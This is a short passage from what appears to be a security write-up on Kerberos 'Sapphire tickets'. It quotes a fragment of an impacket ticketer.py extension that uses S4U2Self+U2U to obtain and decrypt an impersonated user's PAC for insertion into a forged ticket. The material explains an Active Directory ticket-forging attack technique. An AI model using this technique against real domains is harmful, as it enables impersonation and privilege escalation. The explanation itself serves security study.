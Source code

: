 [![MEME](../../assets/img/diamond-sapphire-tickets/meme.jpeg)](../../assets/img/diamond-sapphire-tickets/meme.jpeg){:target="\_blank"}

Looking at the [code](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518) of [Charlie Shutdown](https://twitter.com/_nwodtuhs) with his extension of *Ticketer*.

We can see how he extracts the PAC.

```python
[...]
# 1. S4U2Self + U2U
            logging.info('\tRequesting S4U2self+U2U to obtain %s\'s PAC' % self.__options.impersonate)
            tgs, cipher, oldSessionKey, sessionKey = self.getKerberosS4U2SelfU2U()

            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
[...]            
```

And that PAC of the TGT we already have is (almost) changed like always in *Ticketer* with the new PAC obtained from S4U2Self+U2U by updating *pacInfos* .
